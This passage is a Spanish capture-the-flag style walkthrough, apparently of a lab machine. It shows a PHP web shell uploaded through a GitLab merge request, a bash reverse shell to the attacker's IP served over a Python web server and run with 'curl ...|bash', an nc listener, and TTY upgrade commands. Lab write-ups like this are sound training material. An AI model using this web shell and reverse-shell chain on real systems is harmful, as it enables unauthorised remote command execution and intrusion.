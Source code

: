 #### Subimos un archivo php que nos permite ejecutar comandos {-}

Creamos un archivo `s4vishell.php` en el proyecto profile.

```php
<?php
    echo '<pre>' . shell_exec($_REQUEST['cmd']) . '</pre>';
?>
```

Hacemos un commit con este fichero y se nos crea una rama diferente de la **master** lo que significa que tenemos que crear una **Merge request**.
Una vez esta **Merge Request** creada, Vemos que la podemos acceptar sin problemas porque el proyecto nos apartenece.

Si vamos a la url `http://10.10.10.114/profile/s4vishell.php?cmd=whoami` Vemos que tenemos possibilidad de ejecutar comandos a nivel de systema.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con la s4vishell.php {-}

1. Creamos un archivo index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.17.51/443 0>&1
    ```

1. Creamos un servidor web con python

    ```bash
    python3 -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Cambiamos la url por 
    
    ```bash
    http://10.10.10.114/profile/s4vishell.php?cmd=curl 10.10.17.51|bash
    ```

Ya hemos ganado accesso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
